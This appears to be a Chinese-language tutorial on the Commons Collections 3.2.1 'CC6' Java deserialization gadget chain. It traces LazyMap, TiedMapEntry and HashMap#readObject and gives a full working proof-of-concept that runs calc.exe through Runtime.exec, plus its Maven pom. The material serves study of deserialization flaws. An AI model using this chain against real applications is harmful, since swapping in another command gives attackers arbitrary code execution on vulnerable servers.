

# JAVA反序列化CC6

[TOC]

## 

cc6与cc1利用思路都是相同的。都试图通过反序列化方法#readObject触发一系列调用最终调用org.apache.commons.collections.Transformer#transform达到任意代码执行的目的。

## 过渡类1

org.apache.commons.collections.map.LazyMap#get

```JAVA
public Object get(Object key) {
        // create value for key if key is not currently in the map
        if (map.containsKey(key) == false) {
            Object value = factory.transform(key);
            map.put(key, value);
            return value;
        }
        return map.get(key);
    }
```

从上面代码片段的LazyMap#get方法中line4:`Object value = factory.transform(key);`可以找到一个名为transform调用。

参考CC1反序列化漏洞利用思路，此时我们只要构造一个LazyMap对象令并且将其factory字段设置为我们精心构造的ChainedTransformer对象，即可完成漏洞触发。

到此我们将如何触发#transform方法这一问题，转变成如何触发LazyMap#get这一问题。

## 过渡类2. TiedMapEntry

### 过渡方法

1. org.apache.commons.collections.keyvalue.TiedMapEntry#getValue
2. org.apache.commons.collections.keyvalue.TiedMapEntry#hashCode

```java
public class TiedMapEntry implements Map.Entry, KeyValue, Serializable {
    .....
/** The map underlying the entry/iterator */    
private final Map map;
/** The key */
private final Object key;
......
public TiedMapEntry(Map map, Object key) {
        super();
        this.map = map;
        this.key = key;
    }
......
public Object getValue() {
        return map.get(key);
    }
.....
public int hashCode() {
        Object value = getValue();
        return (getKey() == null ? 0 : getKey().hashCode()) ^
               (value == null ? 0 : value.hashCode()); 
    }
}
```

如上所示#hashCode方法中Object value = getValue();`会调用#getValue。而#getValue方法中只有一句话`return map.get(key);`。

因此我们只要构造一个TiedMapEntry对象令其名为map字段为我们构造LazyMap即可完成对LazyMap#get的触发。

到此我们将如何触发LazyMap#get这一问题，转变成如何触发TiedMapEntry#hashCode这一问题。

## 过渡3

------

1. 过渡方法java.util.HashMap#hash
2. 过渡方法java.util.HashMap#readObject

```java
public class HashMap<K,V> extends AbstractMap<K,V>
    implements Map<K,V>, Cloneable, Serializable {
    
......
static final int hash(Object key) {
        int h;
        return (key == null) ? 0 : (h = key.hashCode()) ^ (h >>> 16);
    }
......
    private void readObject(java.io.ObjectInputStream s)
        throws IOException, ClassNotFoundException {
        // Read in the threshold (ignored), loadfactor, and any hidden stuff
    	s.defaultReadObject();
		...........
        if (mappings < 0)
            throw new InvalidObjectException("Illegal mappings count: " +
                                             mappings);
        else if (mappings > 0) { // (if zero, use defaults)
            // Size the table using given load factor only if within
            // range of 0.25...4.0
            .........
            // Read the keys and values, and put the mappings in the HashMap
            for (int i = 0; i < mappings; i++) {
                @SuppressWarnings("unchecked")
                    K key = (K) s.readObject();
                @SuppressWarnings("unchecked")
                    V value = (V) s.readObject();
                putVal(hash(key), key, value, false, false);
            }
        }
    }

}
```

而在java.util.HashMap#hash中我们会发现`return (key == null) ? 0 : (h = key.hashCode()) ^ (h >>> 16);`这行代码会调用#hashCode。于此同时在java.util.HashMap#readObject中`putVal(hash(key), key, value, false, false);`这行会调用#hash方法。

因此我们只要构造一个HashMap对象令其在#readObject方法中名为key对象为我们构造TiedMapEntry即可完成对TiedMapEntry#hashCode的触发。自此调用链已成。

## 调用总结

------



## 利用代码

```java
package org.example;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;
import org.apache.commons.collections.map.TransformedMap;

import java.io.*;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

// click the <icon src="AllIcons.Actions.Execute"/> icon in the gutter.
public class Main {
    public static void main(String[] args) throws IOException, ClassNotFoundException, NoSuchFieldException, IllegalAccessException {
        Transformer[] fakeTransformers= new Transformer[] {new ConstantTransformer(1)};
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class}, new Object[] {"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke", new Class[] {Object.class, Object[].class}, new Object[] {null, new Object[0]}),
                new InvokerTransformer("exec", new Class[] {String.class}, new Object[] {"C:\\windows\\system32\\calc.exe"}),
                new ConstantTransformer(1)
        };

        Transformer transformer = new ChainedTransformer(fakeTransformers);
        HashMap hashMap = new HashMap();
        Map innerMap = LazyMap.decorate(hashMap, transformer);

        TiedMapEntry tiedMapEntry = new TiedMapEntry(innerMap, "keykey");
        HashMap hashMap1 = new HashMap();
        hashMap1.put(tiedMapEntry, "valuevalue");
        innerMap.remove("keykey");

        Field f = ChainedTransformer.class.getDeclaredField("iTransformers");
        f.setAccessible(true);
        f.set(transformer, transformers);

        ByteArrayOutputStream barr= new ByteArrayOutputStream();
        ObjectOutputStream oos= new ObjectOutputStream(barr);
        oos.writeObject(hashMap1);
        oos.close();

        System.out.println("-------------Serializer-----------");
        System.out.println(barr);

        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
        Object obj1 = ois.readObject();
        ois.close();
        
    }
}
```

```xml
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>

    <groupId>org.example</groupId>
    <artifactId>Unserialize_CC6</artifactId>
    <version>1.0-SNAPSHOT</version>

    <properties>
        <maven.compiler.source>8</maven.compiler.source>
        <maven.compiler.target>8</maven.compiler.target>
        <project.build.sourceEncoding>UTF-8</project.build.sourceEncoding>
    </properties>

    <dependencies>
        <dependency>
            <groupId>commons-collections</groupId>
            <artifactId>commons-collections</artifactId>
            <version>3.2.1</version>
        </dependency>
    </dependencies>
</project>
```

filename:pom.xml
